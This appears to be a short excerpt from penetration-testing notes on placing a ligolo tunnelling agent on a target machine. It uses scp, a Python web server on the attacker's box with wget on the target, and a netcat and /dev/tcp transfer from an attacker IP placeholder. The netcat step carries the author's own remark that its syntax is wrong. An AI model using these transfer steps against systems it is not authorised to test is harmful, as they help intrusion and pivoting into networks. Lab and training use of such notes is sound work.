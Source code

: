 #### copy the agent to target:
In another window once the above commands are all followed we need to push the agent file onto the target machine. You can accomplish this by running a python web server in the directory where the agent file resides.
```
scp ligolo-agent target@ip:~/
```
### if ssh not enabled:
`python web server`
```
attacker$ sudo python -m http.server 80

# on target with wget
wget http://<your attacker machine IP here>/lin-agent  
```
### Another Technique
`Tcp connection via netcat`
```
nc -nlvp 4444 # syntax is wrong
cat /dev/tcp/attckerip/port > ligolo

```